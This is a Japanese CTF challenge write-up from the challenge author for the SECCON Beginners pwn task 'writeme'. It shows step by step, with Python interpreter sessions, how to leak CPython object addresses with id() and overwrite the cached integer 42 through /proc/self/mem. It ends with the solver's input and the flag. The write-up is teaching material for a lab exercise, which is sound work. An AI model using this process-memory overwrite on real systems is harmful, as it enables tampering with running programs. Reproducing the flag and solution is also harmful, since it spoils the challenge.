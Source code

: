 # writeme

## 問題文
writeme.  
(A little pwn)  
`nc writeme.quals.beginners.seccon.jp 27182`  
[writeme.tar.gz](files/) 6fed82490d18ce779247e47a6d89efb2e52e753c  

## 難易度
**Medium**  

## 作問にあたって
CPythonの整数がキャッシュされることを知って思いついた問題です。  
/proc/self/memを書き換えるのはreadmeリスペクト。  
writeme.は実は正規表現でwrite`mem`を示しています(白目)。  
思考の流れが断絶していることもなく、作問者の中でも解けている人がいたので難易度は許容範囲だと思っています。  

## 解法
ソースを読むと、存在するファイルに文字列`Hack`を挿入できるサービスが動いている。  
最初にChanceと称するevalがあるが`42=99`などはできないので後々使うことを考えておく。  
方針としてflagファイルに文字列を挿入し読み取る、もしくは`42>=99`をTrueとすることを目指す。  
flagファイルに文字列を挿入するのは、ファイル名がチェックされており難しそうであるので後者のアプローチを考える。  
任意のファイルに文字列挿入ができるので、`/proc/self/mem`を書き換え可能であり、場所は不明だが数値42もしくは99のオブジェクトの中身を破壊してやると`42>=99`がTrueとなると予測できる。  
ここでCPythonは32バイトずつ数値オブジェクトを順にキャッシュしていることを思い出す。  
Chanceの5文字のevalで行えることはidくらいしかないことから、それを用いることを思考の始まりとしても上記のアプローチに落ち着くと思われる。  
id(1)により無事に数値1のアドレスがリークできるので、id(1)+41*32で書き換える先のid(42)を求める。  
32バイトは以下のように求めることができる。  
```python
>>> int(id(2))-int(id(1))
32
>>> (int(id(42))-int(id(1)))/41
32.0
```
ちなみに大きいものはそうでもない。  
```python
>>> (int(id(124))-int(id(123)))
32
>>> (int(id(1235))-int(id(1234)))
-67072224
```
seekで先ほどリークしたアドレス分スキップすることで数値42を改造できる。  
```python
>>> fd = open("/proc/self/mem", "rb")
>>> fd.seek(int(id(42)))
10915808
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00*\x00\x00\x00\x00\x00\x00\x00'
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00+\x00\x00\x00\x00\x00\x00\x00'
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00,\x00\x00\x00\x00\x00\x00\x00'
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00-\x00\x00\x00\x00\x00\x00\x00'
>>> ord("*")
42
>>> ord("+")
43
>>> ord(",")
44
>>> ord("-")
45
```
どうやら25バイト目に数値本体が入っているようだ。  
ここを破壊してやれば`42>=99`をTrueにすることができそうだ。  
```python
>>> fd = open("/proc/self/mem", "rb+")
>>> fd.seek(int(id(42)))
10915808
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00*\x00\x00\x00\x00\x00\x00\x00'
>>> fd.seek(int(id(42))+24)
10915832
>>> fd.write(b"A")
1
>>> fd.flush()
>>> fd.seek(int(id(42)))
10915808
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00A\x00\x00\x00\x00\x00\x00\x00'
>>> 42
65
>>> chr(65)
'A'
```
+24seekすればよい。  
挿入される文字列が`Hack`であるため、99より大きくなる。  
```python
>>> fd = open("/proc/self/mem", "rb+")
>>> fd.seek(int(id(42)))
10915808
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00*\x00\x00\x00\x00\x00\x00\x00'
>>> fd.seek(int(id(42))+24)
10915832
>>> fd.write(b"Hack")
4
>>> fd.seek(int(id(42)))
10915808
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00Hack\x00\x00\x00\x00'
>>> fd.flush()
>>> 42
1801675080
>>> hex(1801675080)
'0x6b636148'
>>> hex(ord("H"))
'0x48'
>>> hex(ord("a"))
'0x61'
>>> hex(ord("c"))
'0x63'
>>> hex(ord("k"))
'0x6b'
>>> 42>=99
True
```
よって解法は以下の入力になる。  
```text
id(1)
/proc/self/mem
id(1)の結果 + 41*32 + 24
```
solverを書いてやればよい。  
```bash
$ python solver.py
140601518577968
140601518579304
ctf4b{r36ul4r_3xpr35510n_f0r_4ny_51n6l3_ch4r4c73r}
```

## ctf4b{r36ul4r_3xpr35510n_f0r_4ny_51n6l3_ch4r4c73r}